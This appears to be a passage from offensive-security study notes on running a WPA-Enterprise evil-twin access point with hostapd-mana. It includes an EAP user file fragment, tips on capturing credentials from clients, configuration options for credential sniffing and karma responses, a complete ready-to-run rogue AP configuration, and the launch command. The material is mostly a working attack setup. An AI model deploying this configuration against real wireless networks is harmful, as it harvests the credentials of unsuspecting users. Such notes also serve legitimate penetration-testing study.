 ```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


### hostapd-mana for wpa-enterprise
TIPS:
- For testing you may need to change your client settings and turn off and on the wifi, while hostapd-mana remains running all the time, capturing creentials when connection attempts happen, and only if the configuration of the client is the right one for hostapd-mana to get hashes or credentials (EAP connections). at times hostapd-mana may behave strangely after many failed connections, just rerun it, but remember that most of the tweaking happens on the client when messing with the configuration, or if we want to generate traffic, just keep hostapd-mana running and turn off and on wifi on the client after changing the config.
- The channel doesn't matter, but if we use the same as the original it's easier to monitor both networks at once with airodump
- Disable monitor mode to host an AP with hostapd-mana
- If we don't clone the BSSID the channel we use doesn't matter, but if we clone it, we must use a different channel to avoid errors
- mana adds functions that hostapd doesn't have

#### Options in the configuration files of hostapd-mana
- mana_wpe=1 -> to sniff credentials
- mana_eapsuccess=1 -> To let the victim know that he was successful when connecting to us
- mana_credout=``<file>`` -> Saves creds to a file
- eap_server=1 -> Use the internal EAP server, not an external one
- enable_mana=1 -> karma attack, respond to every client that tries to connect to us, making him believe that we are the SSID that he is probing

```
interface=wlan1
ssid=<ESSID>
hw_mode=g
channel=6
auth_algs=3
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
mana_credout=hostapd.creds
```


host evil twin with
``hostapd_mana mana.conf``
